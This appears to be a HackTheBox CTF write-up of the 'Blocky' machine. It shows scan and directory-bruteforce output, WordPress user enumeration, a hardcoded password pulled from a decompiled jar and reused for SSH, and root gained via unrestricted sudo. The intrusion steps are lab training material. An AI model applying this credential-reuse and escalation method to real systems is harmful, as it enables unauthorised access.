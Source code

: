 ```yaml
---
layout: post
title:  "HackTheBox -  Blocky"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/blocky/
---
```

Blocky was another standard box with a few potential rabbit holes to fall down. There was also a 2nd potential method of gaining information through phpmyadmin which i didnt investigate.
# Nmap scan
```console
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
```


Full port scan
```
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
8192/tcp  closed sophos
25565/tcp open   minecraft
```

# Web server directory bruteforce
```
[06:51:41] 200 -   51KB - /
[06:52:26] 301 -  309B  - /wiki  ->  http://10.10.10.37/wiki/
[06:52:39] 301 -  315B  - /wp-content  ->  http://10.10.10.37/wp-content/
[06:53:51] 301 -  312B  - /plugins  ->  http://10.10.10.37/plugins/
[06:54:59] 301 -  316B  - /wp-includes  ->  http://10.10.10.37/wp-includes/
[06:56:13] 301 -  315B  - /javascript  ->  http://10.10.10.37/javascript/
```
Directories mention 'wp-content' and 'wp-includes' which are wordpress directories so theres a solid chance we will be interacting with wordpress.

# User enumeration
Since we know wordpress is running, we can enumerate the site with wpscan. Wpscan manages to pull the username 'notch' from the rss feed.

# Initial shell
Going back to recon through the 'plugins' directory we get access to a 'cute file browser' with 2 files:
```
- Blockycore.jar
- griefprevention.jar
```
We can use online decompilers to decompile the java into somewhat readable code.
From the blockycore file we get credentials that are hardcoded.
{% highlight java %}
public class BlockyCore {
public String sqlHost = "localhost";
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
{% endhighlight %}

Logging in to ssh with user 'notch' and that password gives us our foothold and user flag.

# Privilege escalation
A sudo check reveals instantly what our method of gaining root privs will be.
```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: <ssh_pw>
Matching Defaults entries for notch on Blocky:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
(ALL : ALL) ALL
```
'sudo su' gives us root.
